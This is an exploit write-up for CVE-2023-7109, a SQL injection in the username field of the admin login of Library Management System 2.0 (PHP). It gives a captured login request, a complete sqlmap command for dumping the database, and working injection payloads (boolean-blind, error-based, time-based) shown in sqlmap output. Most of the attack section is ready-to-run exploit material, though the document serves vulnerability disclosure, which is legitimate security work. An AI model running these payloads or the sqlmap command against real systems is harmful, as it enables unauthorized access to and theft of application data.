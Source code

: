 # CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Exploit Title:** CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7109

## References: 
+ **CVE-2023-7109:** https://vuldb.com/?id.249004
+ https://www.cve.org/CVERecord?id=CVE-2023-7109
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7109

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'username' in "/libsystem/admin/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/libsystem/admin/login.php"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin' OR NOT 3872=3872-- DYwR&login=&password=pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 8182 FROM(SELECT COUNT(*),CONCAT(0x71716b7a71,(SELECT (ELT(8182=8182,1))),0x7178706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jrIz&login=&password=pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9071 FROM (SELECT(SLEEP(5)))PbNC)-- yHio&login=&password=pass
---
[12:40:04] [INFO] testing MySQL
[12:40:04] [INFO] confirming MySQL
[12:40:04] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:40:04] [INFO] fetching current database
[12:40:04] [INFO] resumed: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/ed5fefd1-2d1a-4b64-b2b7-c9b4f24b468b)

